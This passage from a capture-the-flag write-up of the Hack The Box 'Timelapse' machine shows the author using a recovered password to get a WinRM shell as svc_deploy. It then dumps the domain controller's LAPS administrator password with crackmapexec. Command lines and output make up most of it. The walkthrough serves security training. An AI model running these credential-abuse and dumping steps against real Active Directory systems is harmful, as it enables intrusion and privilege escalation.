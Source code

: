Nice! We found `svc_deploy`'s password!

**Let's WinRM as `svc_deploy`!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|18:07:48(HKT)]
└> evil-winrm -S -i $RHOSTS -u svc_deploy -p '{Redacted}'
[...]                  
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami; ipconfig /all
timelapse\svc_deploy

Windows IP Configuration

   Host Name . . . . . . . . . . . . : dc01
   Primary Dns Suffix  . . . . . . . : timelapse.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : timelapse.htb

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-7B-4A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::4113:1f9:543d:6321%13(Preferred)
   IPv4 Address. . . . . . . . . . . : 10.10.11.152(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DHCPv6 IAID . . . . . . . . . . . : 33574998
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-2C-65-68-F0-00-50-56-B9-7B-4A
   DNS Servers . . . . . . . . . . . : 127.0.0.1
[...]
```

I'm user `svc_deploy`!

### svc_deploy to Administrator

**Since we're `svc_deploy`, and `svc_deploy` is a member of `LAPS_Readers` group, we can access the LAPS password!**

**However, instead using `LAPSToolkit.ps1`, we can also use `crackmapexec` to dump LAPS passwords!**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse)-[2023.08.09|18:13:17(HKT)]
└> crackmapexec ldap $RHOSTS -u svc_deploy -p '{Redacted}' --kdcHost $RHOSTS -M laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:{Redacted} 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: {Redacted}
```
